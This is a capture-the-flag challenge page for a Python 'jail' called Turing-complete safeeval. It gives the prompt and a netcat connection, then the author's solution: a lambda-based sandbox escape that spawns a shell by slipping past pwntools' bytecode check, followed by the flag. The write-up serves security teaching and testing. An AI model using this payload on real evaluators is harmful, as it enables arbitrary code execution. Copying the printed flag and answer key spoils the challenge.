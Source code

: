 # Turing-complete safeeval
## JAIL - Easy
| author | first blood | solves | points |
| --- | --- | --- | --- |
| k3v1n | _ | 0 | 0 |
### prompt
Hey! We just made a brand new Turing-complete calculator based on a slight modification of `pwnlib.util.safeeval` to allow defining functions, because otherwise it would be Turing-incomplete.

Still we are allowing only pure functions, so there is no security implication right?

Connect via:
`nc safeeval.sdc.tf 1337`

### original specification
Use pwntools's test_expr with the default pwntools _expr_codes list plus MAKE_FUNCTION and CALL_FUNCTION. The exploit is to define a lambda function that runs arbitrary code, like this (pwntools won't recursively check subfunctions):

`(lambda: __import__('os').system('sh'))()`

This is Turing complete because lambda calculus is Turing complete (allow defining functions)

**flag:** `sdctf{u5ing_l4mbDA5_t0_smUgg1e_m4licious_BYTECODEz}`

